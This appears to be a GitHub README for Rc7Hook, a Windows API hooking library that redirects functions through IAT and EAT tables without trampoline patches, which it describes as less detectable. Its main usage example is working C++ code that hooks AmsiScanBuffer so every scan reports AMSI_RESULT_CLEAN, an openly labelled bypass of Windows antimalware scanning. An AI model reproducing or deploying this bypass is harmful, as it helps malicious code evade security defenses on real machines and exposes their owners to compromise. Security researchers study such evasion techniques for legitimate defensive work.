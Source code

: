 
# Rc7Hook

A Patchless Windows API Hooking Library.


## How It Works
Rc7hook combines both [IAT Hooking](https://www.ired.team/offensive-security/code-injection-process-injection/import-adress-table-iat-hooking) and [EAT Hooking](https://www.codereversing.com/archives/598) to completely redirect the target function to the specified hook procedure.

This means there's no need for patching the function with a trampoline, which is more detectable.

## Running The Examples
```
Rc7hook.exe <EXAMPLE>
```
```
Examples:
- MessageBoxHook
- AmsiHook
```

## Usage
### AmsiScanBuffer Hook | Bypassing AMSI
```cpp
typeAmsiScanBuffer orgAmsiScanBuffer;
HRESULT hookAmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT* result) {
	HRESULT orgCallResult = orgAmsiScanBuffer(amsiContext, buffer, length, contentName, amsiSession, result);

	(*result) = AMSI_RESULT_CLEAN;

	return orgCallResult;
}

void hookAmsiScanBuffer() {

	LoadLibraryA("amsi.dll"); // since amsi isn't loaded by the windows loader by default

	Rc7Hook amsiScanBufferHook{ "amsi.dll", "AmsiScanBuffer", hookAmsiScanBuffer, (PVOID*)&orgAmsiScanBuffer };

	if (amsiScanBufferHook.Enable()) {
		printf("[+] Enabled AmsiScanBuffer Hook!\n");
	}
	else {
		printf("[-] Failed to Enable AmsiScanBuffer Hook.\n");
	}

	printf("[*] Press a Key to Unhook.\n");
	getchar();

	if (amsiScanBufferHook.Disable()) {
		printf("[+] Disabled AmsiScanBuffer Hook!\n");
	}
	else {
		printf("[+] Failed to disable AmsiScanBuffer Hook.\n");
	}
}
```

## Credits
[EAT Hooking Article](https://www.codereversing.com/archives/598) by [Codereversing](https://www.codereversing.com/archives/598).

